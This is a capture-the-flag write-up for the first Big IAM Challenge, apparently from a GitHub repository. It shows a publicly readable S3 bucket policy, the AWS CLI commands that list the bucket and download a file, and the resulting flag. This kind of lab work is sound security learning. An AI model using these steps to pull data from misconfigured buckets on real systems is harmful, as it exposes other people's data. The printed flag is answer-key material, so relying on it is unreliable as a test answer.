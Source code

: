 # Challenge 1

**Challenge 1:** https://bigiamchallenge.com/challenge/1

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/57ff9010-8846-455b-a1e0-21859246e2b4)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/13756273-e84c-4508-8b06-3caa3689e706)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/f68e5601-6414-4fac-a3c1-7e31a46a1bc8)

```sh
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-storage-9979f4b/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-storage-9979f4b",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                }
            }
        }
    ]
}
```


```sh
> aws sts get-caller-identity
{
    "UserId": "AROAZSFITKRSYE6ELQP2Q:iam_shell",
    "Account": "657483584613",
    "Arn": "arn:aws:sts::657483584613:assumed-role/shell_basic_iam/iam_shell"
}
> aws s3 ls thebigiamchallenge-storage-9979f4b
                           PRE files/
> aws s3 ls thebigiamchallenge-storage-9979f4b/files/
2023-06-05 19:13:53         37 flag1.txt
2023-06-08 19:18:24      81889 logo.png
> aws s3 cp s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt /tmp/flag1.txt
Completed 37 Bytes/37 Bytes (556 Bytes/s) with 1 file(s) remainingdownload: s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt to ../../tmp/flag1.txt
> cat /tmp/flag1.txt
{wiz:exposed-storage-risky-as-usual}
```

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/676668db-1f1b-48f4-9fa7-83517f00f1e7)

